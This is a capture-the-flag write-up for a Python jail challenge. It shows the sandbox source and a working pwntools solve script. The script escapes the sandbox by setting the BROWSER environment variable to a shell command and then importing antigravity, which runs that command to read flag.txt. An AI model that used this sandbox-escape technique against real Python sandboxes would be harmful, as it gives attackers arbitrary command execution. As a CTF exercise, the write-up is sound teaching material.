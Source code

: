 # computer-monitor

```
so i bought a computer monitor from the store recently for my computer but i think now i need to buy a new computer as well

nc challs2.pyjail.club 28684
```

Attachment:

```python
#!/usr/local/bin/python3

import sys
from os import _exit

sm = sys.monitoring
sm.use_tool_id(2, 'computer-monitor')

inp = input('> ')
code = compile(inp, '<string>', 'exec')

exit_hook = lambda *a: _exit(0)
sm.set_local_events(2, code, sm.events.BRANCH + sm.events.CALL)
sm.register_callback(2, sm.events.BRANCH, exit_hook)
sm.register_callback(2, sm.events.CALL, exit_hook)
exec(code, {}, {})
```

It attachs `BRANCH` and `CALL` hooks to our code. However, `import` is not restried. Following [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/), we can get shell if we have access to environ and `import`:

```python
from pwn import *

context(log_level="debug")

#p = process(["python3", "main.py"])
p = remote("challs2.pyjail.club", 28684)
p.recvuntil(b"> ")
p.sendline(b"""import os;os.environ['BROWSER']='/bin/sh -c "cat flag.txt" #%s';import antigravity""")
p.interactive()
```

Flag: `jail{i_am_proto_your_security_is_my_motto_install_me_on_your_computer_to_protect_your_data_better_f6b37a6e6d0b0af2b5da77a61cd0af7c}`.
